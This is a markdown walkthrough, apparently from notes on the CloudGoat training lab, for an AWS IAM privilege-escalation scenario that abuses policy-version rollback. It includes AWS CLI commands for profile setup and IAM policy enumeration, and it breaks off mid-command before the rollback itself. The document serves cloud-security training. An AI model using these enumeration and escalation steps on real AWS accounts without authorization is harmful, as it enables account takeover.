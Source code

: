 
## Scenarios Available

---


### Scenarios 1: iam_privesc_by_rollback (Small / Easy)

| ++             | ++                                                                                                                                                                                                                                                                           |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Scenario Goal  | Acquire full admin privileges.                                                                                                                                                                                                                                               |
| Size           | Small                                                                                                                                                                                                                                                                        |
| Difficulty     | Easy                                                                                                                                                                                                                                                                         |
| Command        | `$ ./cloudgoat.py create iam_privesc_by_rollback`                                                                                                                                                                                                                            |
| lesson learned | <font color=red> iam:SetDefaultPolicyVersion </font> can lead to serious security issues, user can roll-back to any version, If any of these versions have additional permissions, then it is a privilege escalation and the severity depends on the additional permissions. |


![68747](https://i.imgur.com/8MZEA2V.png)


Starting with a highly-limited IAM user,
- the attacker is able to review previous IAM policy versions
- and restore one which allows full admin privileges,
- resulting in a privilege escalation exploit.


```bash
# ------------- 1. have a set of AWS credentials
# create a named profile with the security credentials using AWS CLI.
aws configure \
    --profile raynor


# ------------- 2. identity who the security credentials belong to
# got the userId, account, Arn(accountID+IAMusername)
aws sts get-caller-identity \
    --profile raynor


# ------------- 3. enumerate the permissions of the services in the AWS account.
# Scout Suite, enumerate-iam etc.
# - brute force AWS API calls
# - to determine which API calls are allowed for a given set of security credentials.



# ------------- 3. enumerate Inline Policies and Managed Policies of IAM user "Raynor"
# When evaluating security of an IAM identity (users, groups of users, or roles), enumerating policies and permissions is an essential step.

# analyzes Raynor's privileges
# got the policyARN
# A "Customer Managed Policy" cg-raynor-policy is attached directly to the IAM user "Raynor".
aws iam list-attached-user-policies \
    --user-name raynor \
    --profile raynor

# enumerate the customer managed policy "cg-raynor-policy "
# --only-attached : extract only attached policies and "scope" as Local to only extract customer managed policies.
# -query : extract only information related to cg-raynor-policy.
# Notice that the default version is v1.
aws iam list-policies \
```
